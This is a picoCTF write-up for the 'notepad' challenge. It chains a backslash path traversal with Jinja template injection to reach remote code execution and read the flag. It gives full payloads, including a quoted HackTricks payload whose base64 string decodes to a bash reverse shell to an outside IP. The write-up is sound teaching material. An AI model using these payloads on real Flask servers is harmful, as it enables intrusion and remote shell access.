





notepad
Description: This note-taking site seems a bit off. notepad.mars.picoctf.net Download
notepad.tar
Writeup: The provided dockerfile seems to set up an image with Flask and Gunicorn. It
copies the required files and directories and configures the permissions for the notepad application.
--DOCKERFILE:
FROM python:3.9.2-slim-buster
RUN pip install flask gunicorn --no-cache-dir
WORKDIR /app
COPY app.py flag.txt ./
COPY templates templates
RUN mkdir /app/static && \
chmod -R 775 . && \
chmod 1773 static templates/errors && \
mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt
CMD ["gunicorn", "-w16", "-t5", "--graceful-timeout", "0", "-unobody", "-gnogroup", "-b0.0.0.0", "app:app"]
From this file we know the directory/file structure used to run the notepad application. Looking at the
app.py file our input entered into the notepad app is initialized as "content". If our input includes
the "_" or "/" characters, we are directed to the bad_content file. Additionally, if our input is greater
than 512 we are directed to the long_content file. Otherwise, the first 128 characters of our content is URL
encoded using url_fix to ensure our string is safe to use in a URL, and a string containing 8 bytes is
generated using token_urlsafe. This is all combined in a formatted string starting with the /static
directory to complete our URL.
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for
app = Flask(__name__)
@app.route("/")
def index():
return render_template("index.html", error=request.args.get("error"))
@app.route("/new", methods=["POST"])
def create():
content = request.form.get("content", "")
if "_" in content or "/" in content:
return redirect(url_for("index", error="bad_content"))
if len(content) > 512:
return redirect(url_for("index", error="long_content", len=len(content)))
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
with open(name, "w") as f:
f.write(content)
return redirect(name)
Using "test" as our input redirects us to a link like
"https://notepad.mars.picoctf.net/static/test-rHg5gc9MjP8.html" we see test followed by a hyphen and our
8-byte urlsafe string. Additionally notice that when we input one of the blacklisted characters ("_" and
"/") we are redirected to "https://notepad.mars.picoctf.net/?error=bad_content". It looks like we can set
the error value to whatever value we want by passing our own through the error parameter.

Notice that although "/" is not allowed, we can alternatively use "\" instead (as used on Windows OS). Attempting to enter the payload "..\templates\errors\" redirects us to a "Not Found" page but we still have our encoded filename in the URL. We can copy the filename, including the hyphen but excluding the extension and replace our error value with it. Entering our custom error value gives us our payload back to us.

It looks like we can create our own payload and take advantage of the error template. Knowing our first 128 characters will form our file path, we can pre-append our payload so that it does not get URL encoded. From our dockerfile, we know the application is run on Flask which utilizes Jinja as its template engine, we can append a simple operation like 2-1 to our payload to see if it being executed. Running the payload below gives us this "aa-iOZkt2vPQsw" as our filename.
PAYLOAD:
..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..
\app\templates\errors\aa{{2-1}}
Replacing our error value with this filename confirms that we can execute code, the {{2-1}} operation was
successfully calculated.

Now we want to find a Jinja payload that doesn't utilize a "_" or "/", fits under 512 characters, and that will read the flag file.
HACKTRICKS RCE PAYLOAD:
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]
["\x5f\x5fbuiltins\x5f\ x5f"]["\x5f\x5fimport\x5f\x5f"]("os")
["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ==
| base64 -d | bash") ["read"]() %} a {% endwith %}
It looks like this payload executes code that is first base64 encoded. We want to
replace the base64 encoded string with one of our own that will concatenate the flag.
Additionally, attempting to outright cat /app/flag.txt gives us nothing. So we should list the contents of
the
/app directory first. Base64 encode the string "ls /app/" and replace the provided base64 encoded string
with ours. Additionally, change the "a" to "{{a}}" so our executed output is displayed directly within the
application/template. Our payload should look something like this...
LS /APP/ PAYLOAD:
..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\
app\templates\errors\aa{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]
["\x5f\x5fimport\x5f\x5f"]("os")["popen"]
("echo -n bHMgL2FwcC8= | base64 -d | bash")["read"]() %}{{a}}{% endwith %}
Injecting this payload and writing our returned filename to the error value, we are shown the contents of
the /app directory in the notepad application.

Now we have the filename for our flag. Base64 encode the string "cat /app/flagxxxx.txt". Replace the previous base64 string with our new one and inject our latest payload.
